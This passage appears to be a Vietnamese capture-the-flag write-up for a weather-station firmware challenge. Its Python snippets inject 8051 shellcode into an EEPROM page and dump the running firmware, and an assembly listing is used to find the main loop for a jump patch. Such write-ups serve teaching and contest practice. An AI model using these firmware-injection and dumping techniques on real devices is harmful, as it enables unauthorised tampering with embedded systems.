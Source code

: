 #### Shellcode n firmware dumping?

Các byte này chính là shellcode mà ta cần write vào EEPROM của chương trình. Ở đây mình sẽ chọn page 46 để write shellcode vào:
```python
io.recvuntil(b'Weather Station\n')
#portb = eeprom()
portb = 111137 # & 0xff = 33
w(portb, b'46')
shellcode = b'\x7F\x00\xBF\x40\x00\x50\x0C\x8F\xEE\xE5\xF3\x60\xFC\x85\xEF\xF2\x0F\x80\xEF\x90\x00\x00\x22'
wrom(63, shellcode)
```

Vì tại page thứ 46 là vùng cuối của firmware, nghĩa là không hề có instruction nào jmp từ trong firmware đến đó cả, nên ta cần patch các byte trong firmware để thực hiện một instruction long jump đến vị trí đặt shellcode. Để làm được điều này đầu tiên ta cần dump firmware chạy trên server về:
```python
f = open('dump.raw', 'wb')
dump = b''
for i in range(64):
    w(portb, str(i).encode('utf-8'))
    dump+=r(portb, 64)
f.write(dump)
f.close()
```

Sau khi dump firmware về ta compile firmware đã được cung cấp để xem vòng lặp trong hàm main của firmware bắt đầu tại địa chỉ nào trong bộ nhớ, theo thông tin sau thì ta thấy main loop bắt đầu tại địa chỉ 0x457:
```arm
...

                                   1037 ;------------------------------------------------------------
                                   1038 ;	firmware.c:200: int main(void) {
                                   1039 ;	-----------------------------------------
                                   1040 ;	 function main
                                   1041 ;	-----------------------------------------
      00044E                       1042 _main:
                                   1043 ;	firmware.c:201: serial_print("Weather Station\n");
      00044E 90r00rA5         [24] 1044 	mov	dptr,#___str_5
      000451 75 F0 80         [24] 1045 	mov	b,#0x80
      000454 12r00r8D         [24] 1046 	lcall	_serial_print
                                   1047 ;	firmware.c:206: while (true) {
      000457                       1048 00135$:
                                   1049 ;	firmware.c:207: serial_print("? ");
      000457 90r00rB6         [24] 1050 	mov	dptr,#___str_6
      00045A 75 F0 80         [24] 1051 	mov	b,#0x80
      00045D 12r00r8D         [24] 1052 	lcall	_serial_print
                                   1053 ;	firmware.c:210: for (i = 0; i < CMD_BUF_SZ; i++) {
      000460 7E 00            [12] 1054 	mov	r6,#0x00
      000462 7F 00            [12] 1055 	mov	r7,#0x00

...
```
